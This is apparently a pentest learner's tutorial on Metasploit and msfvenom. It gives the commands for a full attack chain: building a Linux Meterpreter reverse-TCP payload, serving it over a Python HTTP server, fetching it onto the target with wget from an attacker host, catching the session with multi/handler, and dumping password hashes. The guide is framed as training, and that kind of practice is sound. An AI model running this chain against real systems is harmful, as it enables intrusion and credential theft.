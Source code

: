 Msfvenom is a powerful tool within the Metasploit Framework, used to create various types of payloads that can be deployed to gain access to a system. In this guide, we'll go through the following steps:

Creating a Payload
Transferring the Payload
Setting Up a Listener
Running the Payload and Establishing a Meterpreter Session
Using Post-Exploitation Modules

# Step 1: Creating a Payload

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f elf > payload.elf

Explanation:

-p: Specifies the payload type; in this case, linux/x86/meterpreter/reverse_tcp.
LHOST: Set to your attacking machine's IP address.
LPORT: The port on which you want to receive the connection.
-f elf: Defines the output format (here, ELF for Linux binaries).
>: Redirects the output to a file named payload.elf.

![image](https://github.com/user-attachments/assets/19c1737e-a7d7-4759-b212-3219d6812df3)


# Step 2: Transferring the Payload

Start a simple Python HTTP server on your attacking machine to host the payload:

- python -m http.server 9000

This command sets up an HTTP server that allows the target machine to download the payload via a simple HTTP request.

![image](https://github.com/user-attachments/assets/088c6d6b-b56e-45c0-9849-52bcfa183e70)


On the target machine (the compromised host), use the wget command to download the payload:

- wget http://<attacker IP>:9000/payload.elf

This pulls the payload file from the attacking machine to the target system.

![Capture d'écran 2024-10-18 210150](https://github.com/user-attachments/assets/c7a577c7-481c-4e92-a1ad-7f30904d125b)


# Step 3: Setting Up a Listener

In Metasploit, set up a multi/handler module to listen for the connection from the payload:

- use exploit/multi/handler
- set payload linux/x86/meterpreter/reverse_tcp
- set LHOST <attacker IP>
- set LPORT <attacker port>
- exploit

![Capture d'écran 2024-10-18 210000](https://github.com/user-attachments/assets/c4671c21-2966-4e2e-9060-040b753287c5)

use exploit/multi/handler: This module handles connections from payloads like the one we generated.

set payload: Specifies the payload type, matching what was used in the msfvenom command.

set LHOST and set LPORT: Must match the IP and port specified during payload creation.

exploit: Starts the listener.

![Capture d'écran 2024-10-18 210017](https://github.com/user-attachments/assets/f96ccf2d-3339-43d4-9fc7-7a1b76e9defa)


# Step 4: Running the Payload:

On the target machine, execute the payload:

- chmod +x payload.elf
./payload.elf

chmod +x payload.elf: Makes the file executable.

./payload.elf: Runs the payload.

Once executed, if the payload connects successfully, Metasploit should open a Meterpreter session.

![Capture d'écran 2024-10-18 210221](https://github.com/user-attachments/assets/d94ffe38-d655-4f76-89dd-32637269e028)


# Step 5: Post-Exploitation with Meterpreter

Hash Dumping:

In the screenshots, we see the search for hashdump modules using search hashdump and the selection of a Linux hashdump module.

- use post/linux/gather/hashdump
- set SESSION 1
- run

![Capture d'écran 2024-10-18 210051](https://github.com/user-attachments/assets/c952ae00-2856-4f91-8a1e-1e4a31f72fb6)

![Capture d'écran 2024-10-18 210059](https://github.com/user-attachments/assets/51065488-e530-4f5b-bdda-b73638df9abe)


use post/linux/gather/hashdump: Loads the hashdump module for Linux systems.

set SESSION 1: Associates the module with the active Meterpreter session.

run: Executes the module to retrieve password hashes.

![Capture d'écran 2024-10-18 210059](https://github.com/user-attachments/assets/0c1a3352-7a4d-4347-b7d2-0f62879d1378)


# Conclusion

Metasploit and Msfvenom, when used together, provide a powerful mechanism for penetration testers to generate, deploy, and manage payloads effectively. Mastering these tools is essential for becoming a proficient pentester, as it enables the simulation of real-world attacks and helps in understanding defensive mechanisms better.

By following these steps, you can practice the entire lifecycle of exploiting a target using Metasploit and Msfvenom—from creating payloads to post-exploitation activities like hash extraction.

This guide shows a small part of what Metasploit can achieve, and I’m excited to continue developing my skills as I work toward becoming a professional pentester.


























